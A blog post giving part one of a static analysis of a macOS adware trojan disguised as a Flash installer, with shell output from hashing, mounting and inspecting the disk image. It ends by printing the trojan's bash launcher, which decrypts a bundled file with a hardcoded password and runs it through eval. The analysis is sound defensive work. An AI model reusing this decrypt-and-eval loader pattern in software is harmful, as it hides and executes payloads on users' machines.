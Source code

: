 ```yaml
---
layout: post
title: Adload Sample, Part 1: Static Analysis
---
```

Happy New Year! Excuse my absense, while I have been away taking studying for GCFA and enjoying the holidays. Now that's all over I'm back to show you some static analysis of a macOS trojan I found today. Hope you enjoy and please send any questions, or comments to ragingroosterrem@gmail.com. Thanks!

### Tools Used:
- macOS High Sierra virtualized with Virtualbox
- Bash Commands: bash, cat, cd, clamscan, codesign, file, find, hdiutil, ls, md5, openssl, plutil, shasum
- VirusTotal

### The Story, YAFFD
I was googling a security tool called moloch + threat hunting and clicked on a link to what I thought was a security blog containing some juciy information. It was the third link, on the first page of results mind you! Instead of being served up some info to make my day better, I was redirected to Yet Another Fake Flash Downloader (YAFFD). Okay, I'd preffer to do some malware analysis anyway.

<img src="{{ site.baseurl }}/images/YAFFD.png">

### Analysis

1. After click the pretty button and downloading the .dmg, I fired up my bash shell and went to my downloads folder to see what gift I was given.
```
$ cd ~/Downloads

$ ls
AdobeFlashPlayerInstaller.dmg

$ file AdobeFlashPlayerInstaller.dmg 
AdobeFlashPlayerInstaller.dmg: zlib compressed data

$ md5 AdobeFlashPlayerInstaller.dmg 
MD5 (AdobeFlashPlayerInstaller.dmg) = 8c5a97b8234af7f41e03b4421904a8ff

$ shasum AdobeFlashPlayerInstaller.dmg 
b972667995d2ca1d205c3be4d57fc80814834970  AdobeFlashPlayerInstaller.dmg

$ codesign -dvvv AdobeFlashPlayerInstaller.dmg 
AdobeFlashPlayerInstaller.dmg: code object is not signed at all
```
Hey! Wouldn't Adobe sign this?

2. Let's tear into this .dmg like a candy bar.
```
$ hdiutil attach AdobeFlashPlayerInstaller.dmg 
Checksumming Protective Master Boot Record (MBR : 0)…
Protective Master Boot Record (MBR :: verified   CRC32 $7510EE46
Checksumming GPT Header (Primary GPT Header : 1)…
 GPT Header (Primary GPT Header : 1): verified   CRC32 $366ED316
Checksumming GPT Partition Data (Primary GPT Table : 2)…
GPT Partition Data (Primary GPT Tabl: verified   CRC32 $70831B84
Checksumming  (Apple_Free : 3)…
                    (Apple_Free : 3): verified   CRC32 $00000000
Checksumming disk image (Apple_HFS : 4)…
..............................................................................
          disk image (Apple_HFS : 4): verified   CRC32 $B3A8FFCC
Checksumming  (Apple_Free : 5)…
                    (Apple_Free : 5): verified   CRC32 $00000000
Checksumming GPT Partition Data (Backup GPT Table : 6)…
GPT Partition Data (Backup GPT Table: verified   CRC32 $70831B84
Checksumming GPT Header (Backup GPT Header : 7)…
  GPT Header (Backup GPT Header : 7): verified   CRC32 $00709B9F
verified   CRC32 $7647ACE4
/dev/disk1          	GUID_partition_scheme          	
/dev/disk1s1        	Apple_HFS                      	/Volumes/Player

$ cd /Volumes/Player/

$ find .
.
./.5692438210.png
./.DS_Store
./Player_210.app
./Player_210.app/Contents
./Player_210.app/Contents/_CodeSignature
./Player_210.app/Contents/_CodeSignature/CodeDirectory
./Player_210.app/Contents/_CodeSignature/CodeRequirements
./Player_210.app/Contents/_CodeSignature/CodeRequirements-1
./Player_210.app/Contents/_CodeSignature/CodeResources
./Player_210.app/Contents/_CodeSignature/CodeSignature
./Player_210.app/Contents/Info.plist
./Player_210.app/Contents/MacOS
./Player_210.app/Contents/MacOS/Xl5NyWPPpAg.cD3QOlw2RV1GoEhnKg
./Player_210.app/Contents/Resources
./Player_210.app/Contents/Resources/210
./Player_210.app/Contents/Resources/app5692438210.icns
./Player_210.app/Contents/Resources/enc
```
Looks similar to most other .dmg directory structures.

3. Let's take a look at the .dmg's Property List (plist) which stores some valuable app data.
```
$ cd /Volumes/Player/Player_210.app/

$ plutil -p Info.plist 
{
  "CFBundleExecutable" => "Xl5NyWPPpAg.cD3QOlw2RV1GoEhnKg"
  "CFBundleIconFile" => "app5692438210.icns"
  "CFBundleIdentifier" => "com.Xl5NyWPPpAg.cD3QOlw2RV1GoEhnKg"
  "CFBundleInfoDictionaryVersion" => "6.0"
  "CFBundleName" => "PlayerInstaller"
  "CFBundlePackageType" => "APPL"
  "CFBundleShortVersionString" => "1.0"
  "CFBundleSupportedPlatforms" => [
    0 => "MacOSX"
  ]
  "CFBundleVersion" => "5692438210"
  "LSMinimumSystemVersion" => "10.9"
  "NSHumanReadableCopyright" => "Copyright © 2017 All rights reserved."
  "NSPrincipalClass" => "NSApplication"
}
```
Looks like "Xl5NyWPPpAg.cD3QOlw2RV1GoEhnKg" is the binary executed by the .dmg.

4. Let's inspect the binary.
```
$ cd MacOS/

$ ls
Xl5NyWPPpAg.cD3QOlw2RV1GoEhnKg

$ file Xl5NyWPPpAg.cD3QOlw2RV1GoEhnKg 
Xl5NyWPPpAg.cD3QOlw2RV1GoEhnKg: Bourne-Again shell script text executable, ASCII text
```
Hey! That's a shell script, not a Macho. But, that's not too extraordinary. 

5. Let's see what it does.
```
$ cat Xl5NyWPPpAg.cD3QOlw2RV1GoEhnKg 
#!/bin/bash
cd "$(dirname "$BASH_SOURCE")"
fileDir="$(dirname "$(pwd -P)")"
eval "$(openssl enc -base64 -d -aes-256-cbc -nosalt -pass pass:5692438210 <"$fileDir"/Resources/enc)"
```
